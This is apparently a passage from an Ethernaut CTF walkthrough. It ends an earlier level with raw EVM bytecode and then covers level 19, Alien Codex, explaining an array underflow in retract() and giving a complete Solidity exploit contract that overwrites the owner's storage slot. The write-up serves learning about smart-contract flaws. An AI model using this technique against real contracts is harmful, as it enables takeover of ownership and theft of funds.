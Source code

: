```
60 2a                    | PUSH1 0x2a
60 00                    | PUSH1 0x0
52                       | MSTORE
60 20                    | PUSH1 0x20
60 00                    | PUSH1 0x0
f3                       | RETURN
```

- From browser console set this bytecode into a variable `bytecode` and use `web3.eth.sendTransaction(from: player, data: bytecode)` to crack the level.

# 19. Alien codex

- Here we can exploit the `retract()` function because its not checking for the underflow or overflow of the array. Initially the owner and bool value will be assigned to the slot 0 of the storage, slot 1 will be used for storing the length of the dynamic array codex.
- After calling the 'retract()' on an empty array the array now takes the whole 2^256 slots of storage, Now we can manipulate the owner on the slot 0 by calling `revise()` function.
- This level can also be cracked from both the console or using an external contract, Contract used for cracking this level is given below.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IAlienCodex {
    function owner() view external returns(address);
    function make_contact() external;
    function retract() external;
    function revise(uint i, bytes32 _content) external;

}
contract Hack {
    constructor(IAlienCodex target) {
        target.make_contact();
        target.retract();

        uint256 h = uint256(keccak256(abi.encode(uint256(1))));
        uint256 i;
        unchecked{
            i -= h;
        }

        target.revise(i, bytes32(uint256(uint160(msg.sender))));
        require(target.owner() == msg.sender, "failed");
    }
}

```

- Here h shows how a dynammic array stores values in diffrent memory positions by hashing the slot number of codex and slot 0 (here i) can be found by taking negative of h i.e, slot 0 = slot h - i, h - i = 0, i = h - 0.
